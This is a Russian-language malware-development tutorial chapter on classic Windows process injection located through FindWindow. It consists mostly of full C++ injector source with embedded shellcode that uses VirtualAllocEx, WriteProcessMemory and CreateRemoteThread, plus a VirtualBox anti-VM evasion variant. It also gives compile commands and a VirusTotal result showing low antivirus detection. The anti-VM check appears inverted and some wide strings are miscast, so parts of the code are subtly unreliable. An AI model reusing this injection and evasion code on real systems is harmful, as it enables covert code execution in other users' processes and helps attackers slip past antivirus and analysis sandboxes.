







\newpage
\subsection{30. инъекция в процесс через FindWindow. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}    

Этот пост является результатом самостоятельного изучения одной из функций Win32 API.    

В одном из моих [предыдущих](https://cocomelonc.github.io/pentest/2021/09/29/findmyprocess.html) постов я писал о том, как найти процесс по имени для моего инжектора.    

При разработке инжекторов процессов или DLL было бы полезно найти, например, все окна, запущенные в системе, и попробовать выполнить инъекцию в процесс, запущенный от имени администратора. В самом простом случае - найти любое окно процесса, который станет нашей жертвой.    

### практический пример

Алгоритм этой техники прост. Давайте рассмотрим исходный код:

```cpp
/*
 * hack.cpp - classic process injection 
 * via FindWindow. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/
 2022/03/08/malware-injection-17.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>

unsigned char my_payload[] =

  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main() {

  HANDLE ph;
  HANDLE rt;
  DWORD pid;

  // find a window for mspaint.exe
  HWND hw = FindWindow(NULL, (LPCSTR) "Untitled - Paint");
  if (hw == NULL) {
    printf("failed to find window :(\n");
    return -2;
  }
  GetWindowThreadProcessId(hw, &pid);
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

  LPVOID rb = VirtualAllocEx(ph, NULL,
  sizeof(my_payload), 
  MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  WriteProcessMemory(ph, rb, my_payload, 
  sizeof(my_payload), NULL);

  rt = CreateRemoteThread(ph, NULL, 0, 
  (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
  CloseHandle(ph);

  return 0;
}
```

Как обычно, для простоты я использовал всплывающее окно с сообщением `meow-meow` в качестве полезной нагрузки:    

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

Как вы можете видеть, основная логика ниже:    

```cpp
//...
// find a window for mspaint.exe
HWND hw = FindWindow(NULL, (LPCSTR) "Untitled - Paint");
if (hw == NULL) {
  printf("failed to find window :(\n");
  return -2;
}
GetWindowThreadProcessId(hw, &pid);
ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
//...
```

### Демо

Компилируем:    

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -Wint-to-pointer-cast \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}    

Запускаем:   

```bash
.\hack.exe 1304
```

{width="80%"}    

{width="80%"}    

Как видно, всё работает идеально! :)    

### Анти-VM   

Другой пример использования этой функции - "уход" от виртуальной машины. Дело в том, что некоторые названия окон присутствуют только в виртуальной среде и отсутствуют в обычной хост-ОС.    

Рассмотрим пример:

```cpp
/*
 * hack.cpp - VM evasion via FindWindow. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/
 2022/03/08/malware-injection-17.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>

unsigned char my_payload[] =

  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {

  HANDLE ph;
  HANDLE rt;
  DWORD pid;

  // find a window with certain class name
  HWND hcl = FindWindow((LPCSTR) L"VBoxTrayToolWndClass", NULL);
  HWND hw = FindWindow(NULL, (LPCSTR) L"VBoxTrayToolWnd");
  if (hcl || hw) {
    pid = atoi(argv[1]);
    ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

    LPVOID rb = VirtualAllocEx(ph, NULL, sizeof(my_payload), 
    MEM_RESERVE | MEM_COMMIT, 
    PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(ph, rb, my_payload, 
    sizeof(my_payload), NULL);

    rt = CreateRemoteThread(ph, NULL, 0, 
    (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
    CloseHandle(ph);

    return 0;
  } else {
	printf("virtualbox VM detected :(");
    return -2;
  }
}
```

Как видно, мы просто проверяем, присутствуют ли в ОС окна с указанными именами классов:

```bash
VBoxTrayToolWndClass
VBoxTrayToolWnd
```

Компилируем:

```bash
x86_64-w64-mingw32-g++ hack2.cpp -o hack2.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -Wint-to-pointer-cast \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}    

Запускаем:   

```powershell
.\hack2.exe 1304
```

{width="80%"}    

Таким образом, всё работает идеально для нашей VirtualBox `Windows 10 x64`.    

Загружаем `hack2.exe` на VirusTotal:

{width="80%"}    

**Итак, 4 из 66 антивирусных движков обнаруживают наш файл как вредоносный.**    

[https://www.virustotal.com/gui/file/dd340e3de34a8bd76c8693832f9a665b47e98fce58bf8d2413f2173182375787/detection](https://www.virustotal.com/gui/file/dd340e3de34a8bd76c8693832f9a665b47e98fce58bf8d2413f2173182375787/detection)     

Я надеюсь, что этот раздел повысит осведомленность синих команд об этой интересной технике и добавит ещё одно оружие в арсенал красных команд.

[FindWindow](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-findwindowa)    
[Evasions UI artifacts](https://evasions.checkpoint.com/techniques/ui-artifacts.html)     
[исходный код на Github](https://github.com/cocomelonc/2022-03-14-malware-injection-17)        
